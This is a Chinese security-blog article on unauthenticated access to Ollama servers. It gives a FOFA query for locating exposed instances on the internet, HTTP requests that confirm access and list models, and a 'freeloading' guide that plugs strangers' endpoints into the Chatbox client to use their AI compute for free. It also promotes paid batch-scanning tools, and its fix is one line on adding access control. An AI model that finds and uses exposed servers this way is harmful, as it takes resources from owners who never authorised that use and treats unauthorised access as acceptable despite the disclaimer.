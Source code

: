#  Ollama未授权访问，白嫖AI服务 附POC   
2025-3-4更新  南风漏洞复现文库   2025-03-04 23:55  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Ollama未授权访简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
## 2.漏洞描述  
  
Ollama未授权访问  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
![Ollama未授权访问](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3ZspIzh2ku9KlXiacyzKRxfIJyQplb1smDCNJJRtrKLdOfOhwKGNRZC77iahxM1BCf7kLWauKFWAhmw/640?wx_fmt=png&from=appmsg "null")  
  
Ollama未授权访问  
## 4.fofa查询语句  
  
app="Ollama" && is_domain=false  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx:11434/  
  
漏洞数据包：  
```
GET / HTTP/1.1
Host: xx.xx.xx.xx11434
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZspIzh2ku9KlXiacyzKRxfIcGIjEibZRlfOStVKo9XPc6EaR1N653Km3RFiaeGBOApFZznb2j0bhomA/640?wx_fmt=jpeg&from=appmsg "null")  
```
GET /api/tags HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xx.xx.xx:11434


```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZspIzh2ku9KlXiacyzKRxfI1icG9OpUZX18GldBeQevSNfXAD3nUCMuog2R5cSJicpnQnVoyzBr9oyw/640?wx_fmt=jpeg&from=appmsg "null")  
  
正式因为这个漏洞，让我这种懒人、穷人有了白嫖ai服务的机会。 近期一直用AI写代码，效果已经不错了，特别是对于全栈工程师来说，基本一个人微调一下代码就能搞定一个项目， 大家还是要尽快拥抱AI，提升工作和学习效率。  
  
白嫖攻略  
  
下载chatbox，把上面的未授权接口填进去就能用了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZspIzh2ku9KlXiacyzKRxfIQeu7ZFYjibZfrUP4SHBZEz4WrZwp2q9HPNR0J6lSw57VAW3Cibq3J2Ig/640?wx_fmt=jpeg&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZspIzh2ku9KlXiacyzKRxfIr2WR2J3LMSYcXreEEUXZJuBhrWOMInHJvN3hqfEhiboJKrmic5km9sew/640?wx_fmt=jpeg&from=appmsg "")  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZspIzh2ku9KlXiacyzKRxfIBaf8nHkRcr6h1ZeN7TTzI97kCh18V3wLV7qEnxuTcBY5sWicR0hAJSQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZspIzh2ku9KlXiacyzKRxfIxPub6hlAYVcAw2BWy6RI3kalUzp6GXibd4MCL53MrdndTQGF3svjPFA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZspIzh2ku9KlXiacyzKRxfIUicbrYX4ZAO14KgW4ibiayVkaK02cAOHFDssiarUs475Lo5jL6eWNWvQibQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZspIzh2ku9KlXiacyzKRxfIGHbHgVpcxhRVOoO7ZJtT1XasUH6qgpGQjhVK6VYADG71aDwPBjVhlw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZspIzh2ku9KlXiacyzKRxfIqicruChbzwFMdvqRzaY35zyI1GNw2rlLLQeelF0XOCpjqSU2YVoibS6A/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
加入访问权限  
## 8.往期回顾  
  
  
  
